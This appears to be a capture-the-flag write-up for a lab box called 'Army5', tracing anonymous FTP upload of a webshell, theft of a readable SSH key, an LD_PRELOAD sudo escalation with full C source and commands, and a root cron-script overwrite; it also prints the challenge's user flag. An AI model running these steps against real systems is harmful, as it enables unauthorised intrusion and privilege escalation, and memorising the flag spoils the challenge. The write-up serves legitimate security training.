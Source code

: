 # Army5

>
> ### user: PWNX{dbdb59ae9a73555ed0a846c82dccf368}
>

## Description

A web server with some other exposed services

## Technical description

The challenge exposes three open ports, SSH, FTP, and HTTP. The RCE is obtained via the upload of a malicious file into the HTTP uploads/ directory, the upload is possible due to a misconfiguration in the FTP service which allows any anonymous user to login and write in that folder. With the RCE the attacker, due to incorrect permissions, is able to read the pwnx user ssh key and login via SSH as pwnx user.

## Writeup

The challenge presents three open ports:

```text
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

The Web Application only displays a message that tells the user to enumerate the application. Upon enumeration the user can find the /uploads folder on the webroot.

gobuster -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -u http://10.90.239.248 

```text
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.90.239.248/
[+] Threads      : 10
[+] Wordlist     : /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2024/04/04 18:26:03 Starting gobuster
=====================================================
/uploads (Status: 301)
/. (Status: 200)
```

If the user tries to visit that folder, a 403 response is given to the user and no additional things have been found in the enumeration process.

Trying to connect to the FTP service, the attacker can notice that the anonymous login is enabled

```bash
$ ftp anonymous@10.90.239.248                                                                                                                             ⏎
Connected to 10.90.239.248.
220 ProFTPD Server (Debian) [::ffff:10.90.239.248]
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||9957|)
150 Opening ASCII mode data connection for file list
-rwxr-xr-x   1 0        0             783 Apr  4 16:12 index.html
-rwxr-xr-x   1 0        0           53293 Apr  4 16:09 pwnx-logo.png
drwxrwxrwx   1 101      nogroup      4096 Apr  4 16:24 uploads
226 Transfer complete
ftp>
```

From the results of the `ls` command seems like the attacker landed in the webroot. Trying to upload files into the webroot didn't worked, but it does instead in the uploads directory giving to the attacker the possibility to upload a webshell and gain Remote Code Execution.

With the RCE the attacker can land on the system as the `www-data` user, so at this point the attacker has to elevate his privileges in order to read the flag. Unfortunately for the pwnx user, his home directory and ssh key file both have invalid permissions, so the attacker is able to read the key and elevate its privileges to the pwnx user.

The pwnx user can execute the `id` binary with sudo permissions

```bash
Matching Defaults entries for pwnx on ip-10-90-239-248:
    env_reset, env_keep=LD_PRELOAD, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pwnx may run the following commands on ip-10-90-239-248:
    (bob) NOPASSWD: /usr/bin/id
```

The attacker at this point couldn't obtain too much with just the "id" command if wouldn't be for the env_keep directive in the sudoers file. That directive tells the sudo binary that any command is executed by the pwnx user as sudo, it should also preserve the `LD_PRELOAD` environment variable.

This opens up the possibility of escalating to the `bob` user for the attacker. To gain the bob user the attacker first needs to write the LD_PRELOAD shared object to use when executing the "id" binary.

```c
void _init() {
    unsetenv("LD_PRELOAD");
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
}
```

As said before, this code should be compiled as shared object, to do so we can use the following command. The values in the `setuid` and `setgid` function calls are obtained using the command `id -u bob` on the target system, the attacker is forced to use that value because any other value (also `0`) would fallback to that id since at the end the `id` binary is executed by sudo using the bob user privileges.

```bash
gcc -fPIC -shared -nostartfiles -o exploit.so exploit.c
```

Then we can copy the compiled shared object into the target system using utility such as `scp`

```bash
scp -i pwnx.key ./exploit.so pwnx@10.90.239.248:
```

Then, to exploit the issue the attacker needs to execute the followint command

```bash
sudo LD_PRELOAD=./exploit.so -u bob /usr/bin/id
```

At this point the attacker obtains the "bob" user shell. Here the attacker sees that the user has a `stats.sh` file owned by root and not writeable in the home directory.

Also in the system there is a crontab which execute the file `/home/bob/stat.sh` as root user. Now the attacker in order to gain root and complete the challenge has to write the file `stat.sh` in the bob user home directory and give the permissions to execute the file to any user.

```bash
echo 'cp /root/flag.txt /home/bob/flag.txt && chown -R bob /home/bob' > /home/bob/stat.sh && chmod +x /home/bob/stat.sh
```

After some time will obtain the flag in the bob user home directory.
